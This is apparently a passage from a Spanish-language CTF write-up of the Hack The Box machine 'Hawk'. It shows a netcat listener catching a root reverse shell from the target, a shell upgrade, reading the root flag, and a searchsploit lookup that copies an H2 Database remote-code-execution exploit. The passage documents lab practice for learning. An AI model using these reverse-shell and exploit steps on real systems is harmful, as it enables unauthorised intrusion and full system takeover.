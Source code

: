 - Al darle a run nos llega la shell como root.

```bash
❯ nc -nlvp 8080
listening on [any] 8080 ...
connect to [10.10.14.63] from (UNKNOWN) [10.10.10.102] 40912
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# script /dev/null -c bash
Script started, file is /dev/null
root@hawk:~# cat /root/root.txt
cat /root/root.txt
5aa913cca6cd0865e7172edbc21d66f4
root@hawk:~#
```

## Second way

- Como vimos antes hay un script que también nos da RCE.

```bash
❯ searchsploit H2 database

----------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                   |  Path
----------------------------------------------------------------------------------------------------------------- ---------------------------------
H2 Database - 'Alias' Arbitrary Code Execution                                                                   | java/local/44422.py
H2 Database 1.4.196 - Remote Code Execution                                                                      | java/webapps/45506.py
H2 Database 1.4.197 - Information Disclosure                                                                     | linux/webapps/45105.py
H2 Database 1.4.199 - JNI Code Execution                                                                         | java/local/49384.txt
Oracle Database 10 g - XML DB xdb.xdb_pitrig_pkg Package PITRIG_TRUNCATE Function Overflow                       | multiple/remote/31010.sql
----------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
❯ searchsploit -m 45506

  Exploit: H2 Database 1.4.196 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/45506
     Path: /usr/share/exploitdb/exploits/java/webapps/45506.py
    Codes: N/A
 Verified: False
File Type: Python script, Unicode text, UTF-8 text executable
Copied to: /home/miguel/Downloads/45506.py
```
